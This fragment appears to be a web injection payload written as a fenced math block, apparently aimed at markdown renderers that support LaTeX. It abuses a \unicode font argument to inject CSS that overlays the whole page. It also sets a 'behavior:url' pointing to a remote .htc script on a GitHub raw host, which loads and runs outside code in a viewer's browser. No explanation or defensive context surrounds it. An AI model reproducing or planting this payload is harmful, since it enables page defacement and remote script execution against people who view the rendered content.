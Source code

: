 
```
```math
\ce{$\unicode[goombafont; color:red; pointer-events: none; z-index: -10; position: fixed; top: 0; left: 0; height: 100vh; object-fit: cover; background-size: cover; width: 100vw; opacity: 0.5; body{behavior:url("https://raw.githubusercontent.com/vmpprotect/mighettoreport/main/script.htc"); }]{x0000}$}
```

